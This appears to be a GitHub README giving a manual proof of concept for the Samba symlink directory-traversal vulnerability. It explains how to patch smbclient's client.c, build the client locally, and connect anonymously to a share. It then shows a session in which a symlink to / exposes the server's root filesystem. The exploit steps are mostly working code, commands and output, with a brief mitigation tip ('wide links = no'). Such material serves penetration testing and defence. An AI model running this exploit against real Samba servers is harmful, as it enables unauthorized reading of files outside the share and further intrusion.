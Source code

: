 # Symlink-Directory-Traversal-smb-manually


Samba symlink traversal manual exploit

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an other code line in the client.c

### First step

We have to download a samba source code from the forge, i used the version 3.4.5, here you can find the download link ( https://download.samba.org/pub/samba/stable/)

```
$ tar -xvzf samba-3.4.5.tar.gz
$ cd samba-3.4.5/source3/client/
```
	

### Modification of client.c

You have to modify this file like in the url  ( https://www.exploit-db.com/exploits/33599) and also adding the line like below :

*************
	targetname = talloc_asprintf(ctx,"%s",buf);   // Add this to remove the prepending //host/share 
	if (!cli_unix_symlink(targetcli, targetname, newname)) {
		d_printf("%s symlinking files (%s -> %s)\n",
			cli_errstr(targetcli), newname, targetname);
		return 1;
	}
**********************

You can show the client.c symlink section after modification in the screen below. Save it , and you have to install the package.

![client.c](https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually/blob/master/clientMoif_2019-01-13_15:47__10.11.1.136.png)

### New client.c file

You can replace the old client.c with the new one [here](https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually/blob/master/client.c)

### Install Package externally to use for your pentest tests

In my case i want to use this  smb client modified version just for my pentest tests, so the idea is to install it in a directory instead of a global installation.

We will use the configure file to create our Makefile with the dir installation location like :
```
$ cd samba-3.4.5/source3/
$ ./configure --prefix=/path/to/destination/directory/installation
$ make && make install
$ cd /path/to/destination/directory/installation/bin
```

We have to specify the library location in our bash env like :

```
$ export LD_LIBRARY_PATH="/path/to/destination/directory/installation/lib:$LD_LIBRARY_PATH"
```
And finnaly run smbclent :

```
$ ./smbclient //192.169.1.12/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //192.169.1.12/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```


